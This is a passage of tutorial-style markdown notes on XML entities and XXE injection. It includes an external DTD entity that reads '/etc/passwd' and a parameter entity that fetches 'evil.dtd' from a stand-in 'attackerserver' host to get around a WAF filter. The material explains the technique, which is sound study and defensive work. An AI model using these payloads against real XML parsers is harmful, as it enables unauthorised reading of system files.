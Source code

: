       ```xml
      <sample>
          <first>I would like to say hello world</first>
          <second>I would like to say hello world again.</second>
      </sample>
      ```

   2. **External definition**
   
      Supposed an application configured a WAF to disallow "/etc/passwd" to be sent to the server, the attacker can avoid using "/etc/passwd" in his request by defining entities outside of the injected XML to be included during run-time. 
   
      External DTD file:
   
      ```xml-dtd
      <!ENTITY callme SYSTEM "/etc/passwd">
      ```
   
      Definition:
   
      ```dtd
      <!ENTITY % param1 SYSTEM "http://attackerserver/evil.dtd">
      %param1;
      ```
   
      The above definition would fetch the definition of "callme" from an external server during run-time to be expanded in the following form:
   
      ```dtd
      <!ENTITY % param1 SYSTEM "http://attackerserver/evil.dtd">
      <!ENTITY callme SYSTEM "/etc/passwd">
      ```
   
      Vulnerable call from original XML:
   
      ```xml
      <sample>&callme;</sample>
      ```
   
   3. **Internal Subset problem**
   
         Supposed a developer would like to wrap around a parameter entity as follows:
   
         ```xml
         <!DOCTYPE document [
         	<!ENTITY % sample "hello world">
          	<!ENTITY wrapped "<body>%sample;</body>" >
         ]>
         <document>&wrapped;</document>
         ```
   
         The above would face an error *"XMLSyntaxError: PEReferences forbidden in internal subset"*.
   
         In order to use a parameter entity in an entity's value, an external entity has to be used.
   
         external.dtd:
   
         ```dtd
         <!ENTITY wrapped "<body>%sample;</body>" >
         ```
   
